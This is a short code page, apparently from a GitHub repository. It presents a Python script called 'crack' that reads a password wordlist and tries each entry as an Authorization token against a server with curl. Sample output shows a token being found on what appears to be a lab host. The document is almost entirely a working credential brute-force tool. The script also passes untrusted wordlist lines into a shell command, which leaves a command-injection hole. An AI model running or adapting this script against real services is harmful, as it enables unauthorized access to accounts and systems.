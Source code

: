 ## Run shell programs by reading commandline arguments
This script reads different tokens from a file and pass them to curl command to find out the valid token for authorization
```python
import subprocess
import argparse

def crack(filename, ip_addr) :

  with open(filename) as f:
    password_list = f.readlines()
  
  # to remove whitespace characters like `\n` at the end of each line
  password_list = [x.strip() for x in password_list]  

  print(password_list)

  for password in password_list :
    comd = "curl -s -H 'Authorization: Token " + password + "' " + ip_addr  
    print("Trying..." + password)
    output = subprocess.run(comd, capture_output=True, shell=True).stdout.decode('utf-8')

    if "Unauth".lower() in output.lower():
      print("Unauth".lower()+"-->" + output.lower())
      continue
    else :
      print("Found : " + password)
      break

if __name__ == "__main__":
  parser = argparse.ArgumentParser()
  parser.add_argument("filename", help="Enter the filename containing passwords")
  parser.add_argument("ip_addr", help="Enter the IP address of server including http://")

  args = parser.parse_args()
  crack(args.filename, args.ip_addr)
```
Output
```sh
$ python3 crack.py /root/wordlists/100-common-passwords.txt http://192.107.107.3
Trying...damian
unauth-->unauthorized access
Trying...123123123
Found : 123123123
```
